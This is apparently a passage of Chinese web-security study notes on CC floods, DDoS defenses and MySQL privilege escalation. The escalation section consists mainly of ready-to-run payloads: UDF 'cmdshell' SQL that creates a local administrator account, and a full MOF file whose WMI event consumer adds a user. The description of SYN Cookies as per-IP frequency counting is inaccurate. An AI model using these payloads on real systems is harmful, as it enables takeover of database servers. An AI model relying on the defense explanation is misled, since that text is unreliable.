 CC攻击原理

对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。

### 2、DOSS防护

SYN Cookie/SYN Proxy、safereset等算法。SYN Cookie的主要思想是为每一个IP地址分配一个“Cookie”，并统计每个IP地址的访问频率。如果在短时间内收到大量的来自同一个IP地址的数据包，则认为受到攻击，之后来自这个IP地址的包将被丢弃。

#  

## 十七、提权

### MySQL两种提权方式

udf提权,mof提权

MySQL_UDF提取

要求: 1.目标系统是Windows(Win2000,XP,Win2003)；2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数 可以再mysql里输入select @@basedirshow variables like ‘%plugins%’ 寻找mysql安装路径 提权:

使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

```
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
```

该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

MySQL mof提权

```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```
